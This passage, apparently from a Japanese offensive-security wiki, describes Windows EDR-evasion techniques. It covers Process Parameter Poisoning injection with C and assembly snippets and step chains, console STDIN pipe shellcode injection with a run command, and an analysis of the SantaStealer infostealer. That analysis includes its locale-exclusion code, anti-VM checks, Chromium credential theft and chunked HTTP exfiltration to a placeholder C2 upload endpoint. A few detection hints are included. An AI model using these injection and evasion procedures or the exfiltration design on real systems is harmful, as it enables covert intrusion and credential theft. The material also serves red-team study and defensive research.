Process Parameter Poisoning (P3) は、従来のリモート書き込み経路（`VirtualAllocEx` + `WriteProcessMemory`）を回避する **process-injection / EDR-evasion** 技術です。すでに実行中の対象プロセスにバイト列をコピーする代わりに、Windows が選択された `CreateProcessW` の起動パラメーターを子プロセスに**コピー**し、`PEB->ProcessParameters`（`RTL_USER_PROCESS_PARAMETERS`）内に格納する仕組みを悪用します。<sup>[[28]](#references)[[29]](#references)</sup>

### `CreateProcessW` がコピーする、poisoning 可能なデータ領域

利用できるデータ領域は次のとおりです。

- `lpCommandLine` → `RTL_USER_PROCESS_PARAMETERS.CommandLine`
- `lpEnvironment`（`CREATE_UNICODE_ENVIRONMENT` を指定）→ `RTL_USER_PROCESS_PARAMETERS.Environment`
- `STARTUPINFO.lpReserved` → `RTL_USER_PROCESS_PARAMETERS.ShellInfo`

データ領域に関する実用上の制約：

- `lpCommandLine` は `CreateProcessW` から書き込み可能なメモリを指している必要があり、null 終端文字を含めて **32,767 Unicode 文字**までに制限されます。
- `lpEnvironment` は、連続する `NAME=VALUE\0` 文字列と、終端の追加の `\0` で構成される Unicode 環境ブロックでなければなりません。
- `lpReserved` は公式には予約済みであるため、`ShellInfo` との対応付けは、安定した文書化済みの仕様ではなく実装の詳細として扱う必要があります。

これにより、通常のプロセス作成が **payload-transfer primitive** になります。オペレーターは攻撃者が制御する起動データを指定して子プロセスを作成し、Windows にプロセス間コピーを実行させます。

### リモート書き込み API を使わないリモート参照フロー

子プロセスの作成後、**読み取り専用**のプリミティブを使って、コピーされたバッファを特定します。

1. `NtQueryInformationProcess(ProcessBasicInformation)` → `PROCESS_BASIC_INFORMATION.PebBaseAddress` を取得
2. リモートの `PEB` を読み取る
3. `PEB.ProcessParameters` をたどる
4. `RTL_USER_PROCESS_PARAMETERS` を読み取る
5. 選択したポインターを使用する：
   - `parameters.CommandLine.Buffer`
   - `parameters.Environment`
   - `parameters.ShellInfo.Buffer`

最小限のフロー：

```c
NtQueryInformationProcess(hProcess, ProcessBasicInformation, &pbi, sizeof(pbi), &retLen);
NtReadVirtualMemoryEx(hProcess, pbi.PebBaseAddress, &peb, sizeof(peb), &bytesRead, 0);
NtReadVirtualMemoryEx(hProcess, peb.ProcessParameters, &params, sizeof(params), &bytesRead, 0);
// params.CommandLine.Buffer / params.Environment / params.ShellInfo.Buffer
```

### コピーされたパラメータバッファの実行

コピーされたパラメータ領域は通常 `RW` であり、実行可能ではありません。一般的な P3 チェーンは次のとおりです。

1. プロセスを通常どおり作成する（サスペンド状態にしない）
2. `NtProtectVirtualMemory` / `VirtualProtectEx` を使って、選択したパラメータページを実行可能にする
3. `PROCESS_INFORMATION` からすでに返されているメインスレッドのハンドルを再利用する
4. `NtSetContextThread`（`CONTEXT_CONTROL`、`RIP` を上書き）で実行をリダイレクトする

従来のスレッドハイジャックの手順とは異なり、`SuspendThread` / `ResumeThread` は**不要**です。返されたメインスレッドのハンドルに対して、直接コンテキストを変更できます。

これにより、インジェクションで一般的に監視される次の API を回避できます。

- `VirtualAllocEx` / `NtAllocateVirtualMemory(Ex)`
- `WriteProcessMemory` / `NtWriteVirtualMemory`
- `CreateRemoteThread` / `NtCreateThreadEx`
- 多くの場合、`SuspendThread` / `ResumeThread` も回避できます

### ヌルバイトの制約と段階的な shellcode

3 つのキャリアはいずれも**文字列または文字列に類似したデータ**であるため、`0x00` を含む生の payload は転送中に切り詰められます。実用的な回避策は、実行時に定数を再構成し、任意の第 2 段階を読み込む**ヌルバイトを含まない第 1 段階**を使うことです。

単純な方法として、XOR による定数合成があります。

```asm
mov rax, XOR_A
mov r15, XOR_B
xor rax, r15 ; result = desired value, without embedding 0x00 bytes
```

これにより、第1ステージは、転送するパラメーターに null byte を埋め込まずに、スタック上に文字列、API 引数、DLL パス、または第2ステージの shellcode loader を構築できます。

### 第1ステージからのスタックベースの API 呼び出し

第1ステージで `LoadLibraryA` などの API を呼び出す必要がある場合は、次のようにできます。

- 文字列/バッファーをターゲットのスタックに push する
- **32-byte x64 shadow space** を確保する
- `RCX`、`RDX`、`R8`、`R9` に定数または `RSP` 相対ポインターを設定する
- 呼び出し前に `RSP` を **16-byte aligned** に保つ

その後、第2ステージをスタックから `PAGE_READWRITE` の割り当て領域にコピーし、`VirtualProtect` で `PAGE_EXECUTE_READ` に変更してからジャンプできます。これにより、直接の RWX 割り当てを回避できます。

### 検知の着眼点

著者が挙げた、有効なハンティングの機会は次のとおりです。

- `VirtualProtectEx` / `NtProtectVirtualMemory` によって**プロセスパラメーターのページが実行可能**に変更される
- その保護属性の変更後に `SetThreadContext` / `NtSetContextThread` が呼び出される
- `PEB` をリモート読み取りし、その後 `RTL_USER_PROCESS_PARAMETERS` を読み取る
- プロセス作成時の `lpCommandLine`、`lpEnvironment`、または `STARTUPINFO.lpReserved` の値が異常に長い、またはエントロピーが高い

### 注意点

- P3 は**プロセス間転送の手法**であり、それ自体は完全な実行プリミティブではありません。コピーされたパラメーターには、実行権限への変更と実行先のリダイレクト方法が別途必要です。
- `RtlCreateProcessReflection` / Dirty Vanity は著者らも検討しましたが、内部で `NtWriteVirtualMemory` や `NtCreateThreadEx` などの疑わしいプリミティブに到達するため、採用しませんでした。

## Console STDIN pipe injection

対話型コンソールの子プロセスを、**payload 転送プリミティブ**として利用することもできます。インジェクターは子プロセスの標準入力をパイプにリダイレクトし、マーカーに続けて shellcode を送信します。コンソールプログラムがデータを自身のプライベートメモリに読み込んだ後、インジェクターはそのバッファーを見つけて実行可能にし、子スレッドの実行先をそこにリダイレクトします。これにより `VirtualAllocEx` と `WriteProcessMemory` は回避できますが、これは依然としてプロセスインジェクションであり、汎用的な EDR bypass ではありません。<sup>[[41]](#references)</sup>

「named-pipe」という説明にもかかわらず、参照実装は `CreatePipe` を呼び出しており、これは**匿名パイプ**を作成します。Windows は匿名パイプを内部的に一意の名前を持つパイプオブジェクトとして実装していますが、この PoC は `\\.\pipe\<name>` パスを指定せず、`CreateNamedPipe` も呼び出しません。既定のセキュリティ記述子を使用して継承可能なハンドルを作成し、読み取りハンドルを `STARTUPINFO.hStdInput` に設定し、`STARTF_USESTDHANDLES` を指定して、ハンドル継承を有効にした状態で新しい子プロセスを起動します。したがって、この PoC は指定されたコンソール実行ファイルを起動するものであり、既存のプロセスにパイプを接続するものではありません。<sup>[[41]](#references)[[42]](#references)[[43]](#references)</sup>

### 参照ワークフロー

実装では、次の手順を使用します。<sup>[[41]](#references)</sup>

1. 子プロセスの `STDIN` と `STDOUT` 用に匿名パイプのペアを作成します。親プロセス側の2つのハンドルについて継承を無効にし、プロセス作成後に親プロセス内の子プロセス側の複製ハンドルを閉じます。
2. `CREATE_NEW_CONSOLE` を指定して、`netsh.exe` や `nslookup.exe` などの対話型実行ファイルを起動します。子プロセスはリダイレクトされた標準ハンドルを継承します。
3. 親プロセス側の `STDIN` ハンドルを通じて `WriteFile` で完全なバイナリの `rawData` 配列を送信します。コンソールプログラムはバイト列を読み込み、そのコピーを自身のコミット済みプライベート領域の1つに保持します。
4. `VirtualQueryEx` で子プロセスのアドレス空間を走査し、`ReadProcessMemory` で候補となる `MEM_PRIVATE` 領域を読み取り、`rawData` の先頭にあるマーカーを検索します。
5. `VirtualProtectEx` を使って、検出したバッファーの保護属性を `PAGE_EXECUTE_READWRITE` に変更します。
6. メインスレッドを特定して中断し、`NtSetContextThread` で `RIP` を `found_address + 0x19` に設定してから、スレッドを再開します。

```powershell
InjectSetConsole.exe C:\Windows\System32\netsh.exe
```

提供された実装はx64専用です。`CONTEXT.Rip`を変更し、埋め込みペイロードにはx64 shellcodeを使用しています。`rawData`は25バイトのマーカーで始まるため、実行可能なバイト列は16進オフセット`0x19`から始まります。ペイロードを置き換える場合は、このレイアウトを維持するか、マーカー、検索ベクター、配列サイズ、実行オフセットをまとめて更新してください。ソースコメントには、`0x0A`、`0x0D`、`0x1A`も使用不可文字として記載されています。このワークフローでは、子プロセスのトークンや権限は変更しません。<sup>[[41]](#references)</sup>

小規模なネイティブヘルパーやペイロードのコンパイルパターンについては、[Windows C Payloads](windows-local-privilege-escalation/windows-c-payloads.md)を参照してください。

## ファイルレス回避と認証情報窃取のためのSantaStealerの手法

SantaStealer（別名BluelineStealer）は、現代の情報窃取マルウェアがAV bypass、anti-analysis、認証情報へのアクセスを単一のワークフローに組み合わせる方法を示しています。<sup>[[24]](#references)</sup>

### キーボードレイアウトによる実行制御とサンドボックス遅延

- 設定フラグ（`anti_cis`）は、`GetKeyboardLayoutList`を使ってインストール済みのキーボードレイアウトを列挙します。キリル文字のレイアウトが見つかると、サンプルは空の`CIS`マーカーを作成して終了します。これにより、除外対象のロケールでは実行されず、ハンティングの痕跡は残ります。

```c
HKL layouts[64];
int count = GetKeyboardLayoutList(64, layouts);
for (int i = 0; i < count; i++) {
    LANGID lang = PRIMARYLANGID(HIWORD((ULONG_PTR)layouts[i]));
    if (lang == LANG_RUSSIAN) {
        CreateFileA("CIS", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL);
        ExitProcess(0);
    }
}
Sleep(exec_delay_seconds * 1000); // config-controlled delay to outlive sandboxes
```

### 多層的な `check_antivm` ロジック

- Variant A はプロセスリストを走査し、各名前を独自のローリングチェックサムでハッシュ化して、デバッガー／sandbox の埋め込みブロックリストと照合します。コンピューター名にも同じチェックサム処理を行い、`C:\analysis` などの作業ディレクトリも確認します。
- Variant B はシステムプロパティ（プロセス数の下限、最近の起動時間）を調べ、`OpenServiceA("VBoxGuest")` を呼び出して VirtualBox additions を検出し、sleep の前後でタイミングを確認して single-stepping を見つけます。いずれかに該当すると、モジュールの起動前に処理を中断します。

### Fileless helper と二重 ChaCha20 による reflective loading

- メインの DLL/EXE には Chromium credential helper が埋め込まれており、ディスクに書き出すか、メモリに手動で map します。fileless モードでは、helper が import と relocation を自ら解決するため、helper の痕跡は書き込まれません。
- この helper は、ChaCha20（32 バイトのキー 2 つと 12 バイトの nonce 2 つ）で二重に暗号化された第 2 段階の DLL を保持します。2 回の復号後、blob を reflective loading（`LoadLibrary` は使用しない）し、[ChromElevator](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption) に由来する export `ChromeElevator_Initialize/ProcessAllBrowsers/Cleanup` を呼び出します。<sup>[[25]](#references)</sup>
- ChromElevator のルーチンは、direct-syscall による reflective process hollowing を使って、稼働中の Chromium browser に inject し、AppBound Encryption のキーを引き継ぎ、ABE の強化措置を回避して SQLite database からパスワード／cookie／クレジットカード情報を直接復号します。

### モジュール式のインメモリ収集と分割 HTTP exfil

- `create_memory_based_log` は、グローバルな `memory_generators` function-pointer table を反復処理し、有効なモジュール（Telegram、Discord、Steam、screenshots、documents、browser extensions など）ごとにスレッドを 1 つ起動します。各スレッドは結果を共有バッファーに書き込み、約 45 秒の join 時間後にファイル数を報告します。
- 完了後、静的リンクされた `miniz` library を使ってすべてを `%TEMP%\\Log.zip` に圧縮します。次に `ThreadPayload1` は 15 秒 sleep し、アーカイブを 10 MB のチャンクに分け、ブラウザーの `multipart/form-data` boundary（`----WebKitFormBoundary***`）を偽装して `http://<C2>:6767/upload` に HTTP POST で送信します。各チャンクには `User-Agent: upload`、`auth: <build_id>`、任意で `w: <campaign_tag>` が追加され、最後のチャンクには `complete: true` が付加されて、C2 に再構成の完了を知らせます。

## References

- [1] [Advanced Evasion Tradecraft: Precision Module Stomping](https://medium.com/@toneillcodes/advanced-evasion-tradecraft-precision-module-stomping-b51feb0978fe)
- [2] [toneillcodes/windows-process-injection](https://github.com/toneillcodes/windows-process-injection)
- [3] [Crystal Kit – blog](https://rastamouse.me/crystal-kit/)
- [4] [Crystal-Kit – GitHub](https://github.com/rasta-mouse/Crystal-Kit)
- [5] [Elastic – Call stacks, no more free passes for malware](https://www.elastic.co/security-labs/call-stacks-no-more-free-passes-for-malware)
- [6] [Crystal Palace – docs](https://tradecraftgarden.org/docs.html)
- [7] [simplehook – sample](https://tradecraftgarden.org/simplehook.html)
- [8] [stackcutting – sample](https://tradecraftgarden.org/stackcutting.html)
- [9] [Draugr – call-stack spoofing PIC](https://github.com/NtDallas/Draugr)
- [10] [Unit42 – New Infection Chain and ConfuserEx-Based Obfuscation for DarkCloud Stealer](https://unit42.paloaltonetworks.com/new-darkcloud-stealer-infection-chain/)
- [11] [Synacktiv – Should you trust your zero trust? Bypassing Zscaler posture checks](https://www.synacktiv.com/en/publications/should-you-trust-your-zero-trust-bypassing-zscaler-posture-checks.html)
- [12] [Check Point Research – Before ToolShell: Exploring Storm-2603’s Previous Ransomware Operations](https://research.checkpoint.com/2025/before-toolshell-exploring-storm-2603s-previous-ransomware-operations/)
- [13] [Hexacorn – DLL ForwardSideLoading: Abusing Forwarded Exports](https://www.hexacorn.com/blog/2025/08/19/dll-forwardsideloading/)
- [14] [Windows 11 Forwarded Exports Inventory (apis_fwd.txt)](https://hexacorn.com/d/apis_fwd.txt)
- [15] [Microsoft Learn – Dynamic-link library search order](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order)
- [16] [Microsoft Learn – Process security and access rights](https://learn.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights)
- [17] [Microsoft – EKU reference (MS-PPSEC)](https://learn.microsoft.com/openspecs/windows_protocols/ms-ppsec/651a90f3-e1f5-4087-8503-40d804429a88)
- [18] [Sysinternals – Process Monitor](https://learn.microsoft.com/sysinternals/downloads/procmon)
- [19] [CreateProcessAsPPL launcher](https://github.com/2x7EQ13/CreateProcessAsPPL)
- [20] [Zero Salarium – Countering EDRs With The Backing Of Protected Process Light (PPL)](https://www.zerosalarium.com/2025/08/countering-edrs-with-backing-of-ppl-protection.html)
- [21] [Zero Salarium – Break The Protective Shell Of Windows Defender With The Folder Redirect Technique](https://www.zerosalarium.com/2025/09/Break-Protective-Shell-Windows-Defender-Folder-Redirect-Technique-Symlink.html)
- [22] [Microsoft – mklink command reference](https://learn.microsoft.com/windows-server/administration/windows-commands/mklink)
- [23] [Check Point Research – Under the Pure Curtain: From RAT to Builder to Coder](https://research.checkpoint.com/2025/under-the-pure-curtain-from-rat-to-builder-to-coder/)
- [24] [Rapid7 – SantaStealer is Coming to Town: A New, Ambitious Infostealer](https://www.rapid7.com/blog/post/tr-santastealer-is-coming-to-town-a-new-ambitious-infostealer-advertised-on-underground-forums)
- [25] [ChromElevator – Chrome App Bound Encryption Decryption](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption)
- [26] [Check Point Research – GachiLoader: Defeating Node.js Malware with API Tracing](https://research.checkpoint.com/2025/gachiloader-node-js-malware-with-api-tracing/)
- [27] [Sleeping Beauty: Putting Adaptix to Bed with Crystal Palace](https://maorsabag.github.io/posts/adaptix-stealthpalace/sleeping-beauty/)
- [28] [SensePost – Process Parameter Poisoning](https://sensepost.com/blog/2026/process-parameter-poisoning/)
- [29] [Orange Cyberdefense – p3-loader](https://github.com/Orange-Cyberdefense/p3-loader)
- [30] [Sleeping Beauty II: CFG, CET, and Stack Spoofing](https://maorsabag.github.io/posts/adaptix-stealthpalace/sleeping-beauty-ii)
- [31] [Ekko sleep obfuscation](https://github.com/Cracked5pider/Ekko)
- [32] [SysWhispers4 – GitHub](https://github.com/JoasASantos/SysWhispers4)
- [33] [blog.xpnsec.com - Hiding Your Dotnet Etw](https://blog.xpnsec.com/hiding-your-dotnet-etw)
- [34] [repnz/etw-providers-docs](https://github.com/repnz/etw-providers-docs)
- [35] [trustedsec.com - Abusing Chrome Remote Desktop On Red Team Operations A Practical Guide](https://trustedsec.com/blog/abusing-chrome-remote-desktop-on-red-team-operations-a-practical-guide)
- [36] [Check Point Research - BTR Reforged: Weaponizing Defender's Remediation Driver as a Kernel Operation Primitive](https://research.checkpoint.com/2026/btr-reforged-weaponizing-defenders-remediation-driver-as-a-kernel-operation-primitive/)
- [37] [Dump-GUY - BTR_CLI](https://github.com/Dump-GUY/BTR_CLI)
- [38] [MDSec Function Peekaboo companion code](https://github.com/mdsecactivebreach/functionpeekaboo)
- [39] [MDSec - Function Peekaboo: Crafting Self-Masking Functions Using LLVM](https://mdsec.co.uk/2025/10/function-peekaboo-crafting-self-masking-functions-using-llvm/)
- [40] [Microsoft Learn - VirtualProtect](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)
- [41] [TwoSevenOneT - InjectSetConsole source](https://github.com/TwoSevenOneT/InjectSetConsole)
- [42] [Microsoft Learn - CreatePipe function](https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-createpipe)
- [43] [Microsoft Learn - Creating a Child Process with Redirected Input and Output](https://learn.microsoft.com/en-us/windows/win32/procthread/creating-a-child-process-with-redirected-input-and-output)
- [44] [Praetorian - GhostPack Necromancy: Reforging C# Tools with WasmForge](https://praetorian.com/blog/wasmforge-csharp-ghostpack-edr-evasion)
- [45] [WasmForge - Compiling C# / .NET Projects](https://github.com/praetorian-inc/wasmforge/blob/main/docs/CSHARP.md)

{{#include ../banners/hacktricks-training.md}}
